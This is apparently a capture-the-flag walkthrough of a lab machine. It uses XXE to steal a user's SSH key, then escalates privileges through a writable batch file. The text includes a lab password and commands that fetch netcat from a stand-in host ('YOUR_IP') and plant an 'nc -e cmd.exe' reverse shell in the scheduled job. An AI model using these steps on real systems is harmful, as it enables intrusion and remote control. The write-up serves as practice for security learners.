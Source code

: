 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)
* [Discoveries](#discoveries)

![alt text](./img/markup.PNG?raw=true)  

## Recon-Enumeration  
sudo masscan -p1-65535 10.10.10.49 -e tun0 --rate=1000  
![alt text](./img/markup01.PNG?raw=true)  

nmap -A 10.10.10.49 -p 22,80,443  
![alt text](./img/markup02.PNG?raw=true)  

dirsearch -u http://10.10.10.49 -w ~/wordlists/common.txt -t 100 --full-url  
![alt text](./img/markup03.PNG?raw=true)  

Using the credentials founded in the INCLUDED machine we can login to the webpage -> daniel:>SNDv*2wzLWf  
![alt text](./img/markup04.PNG?raw=true)  

## Exploit  
Let’s click on the ORDER item  
![alt text](./img/markup05.PNG?raw=true)  

Checking the source code of the page we found an user….  
![alt text](./img/markup06.PNG?raw=true)  

Let’s try to do some XSS in this form  
![alt text](./img/markup07.PNG?raw=true)  
  
![alt text](./img/markup08.PNG?raw=true)  

Hummmm loadXML? Maybe the application is vulnerable to XXE.  
To test this let's start burpsuite, capture the order request and send to repeater  
![alt text](./img/markup09.PNG?raw=true)  

Now we inject an XXE payload to test the XXE vuln  
![alt text](./img/markup10.PNG?raw=true)  

Send the request and check the response  
![alt text](./img/markup11.PNG?raw=true)  
  
SUCCESS!!!

Ok, with nmap we found that port 22 is open. Maybe there is some id_rsa file on the target. One target that we found is Daniel’s, so let’s start with him  
![alt text](./img/markup12.PNG?raw=true)  
  
Touche!

Now copy the id_rsa to a file in your machine  
![alt text](./img/markup13.PNG?raw=true)  
  
OBS.: Don’t forget to let one empty line in the end of the file because of the format of id_rsa key

Now we can connect to the target with ssh  
ssh daniel@10.10.10.49 -i id_rsa_daniel  
![alt text](./img/markup14.PNG?raw=true)  
  
HABEMUS SHELL \o/

Go to the desktop folder and get the flag  
![alt text](./img/markup15.PNG?raw=true)  

## Privesc  
Let’s check our privileges  
![alt text](./img/markup16.PNG?raw=true)  

Nothing REALLY isefull, let’s see what services are running  and the OS  
![alt text](./img/markup17.PNG?raw=true)  

Sad. So let’s do it old school. Mapping the system manually  
On the C:\ folder we found some interesting things  
![alt text](./img/markup18.PNG?raw=true)  

Here we have XAMPP and LOg-MANAGEMENT that can be interesting. Let’s start with LOG folder  
![alt text](./img/markup20.PNG?raw=true)  
  
Analysing the file we see that he need to be executed as Administrator.  

Now let’s check this file permissions:
icacls job.bat  
![alt text](./img/markup21.PNG?raw=true)  

Looks like all local users has control of the file (BUILDIN\Users). So we can edit it, this means that we can use it to privesc.

For this let’s upload a copy of nc to the machine. Start an web server (Example: sudo python3 -m http.server 80) in your machine and use the next commands on target machine:
curl http://YOUR_IP/nc.exe -o c:\users\daniel\desktop\nc-eldruin.exe
echo c:\users\daniel\desktop\nc-eldruin.exe -e cmd.exe YOUR_IP YOUR_PORT >> c:\Log-Management\job.bat
type c:\Log-Management\job.bat  
![alt text](./img/markup22.PNG?raw=true)  

Start an nc listener in your machine and wait receive asn reverse shell  
![alt text](./img/markup23.PNG?raw=true)  

## Discoveries  
Look’s like these files are not useful in the next machines, but is good to practice enumeration 

![alt text](./img/markup19.PNG?raw=true)  
  
![alt text](./img/markup24.PNG?raw=true)  
  
![alt text](./img/markup25.PNG?raw=true)  

